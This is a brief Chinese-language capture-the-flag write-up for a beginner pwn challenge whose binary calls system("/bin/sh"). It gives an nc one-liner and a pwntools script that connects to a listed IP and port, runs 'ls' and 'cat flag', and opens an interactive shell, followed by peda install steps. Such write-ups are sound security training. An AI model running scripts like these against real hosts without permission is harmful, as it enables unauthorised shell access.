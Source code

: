 1、按F5键时，发现主函数中直接调用了system("/bin/sh")语句，说明连接即可返回shell
2、两种解题方法：
（1）直接使用nc连接：nc -nv ip port
（2）编写python脚本：
#coding = utf-8
from pwn import *

context.log_level = 'debug'
p = remote('111.198.29.45', 54766)
p.sendline('ls')
p.sendline('cat flag')
#进行交互
p.interactive()

ps：
pwntools是CTF框架和开发库，旨在快速构建原型和开发，只支持python2。
peda是gdb的插件，安装方法：
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"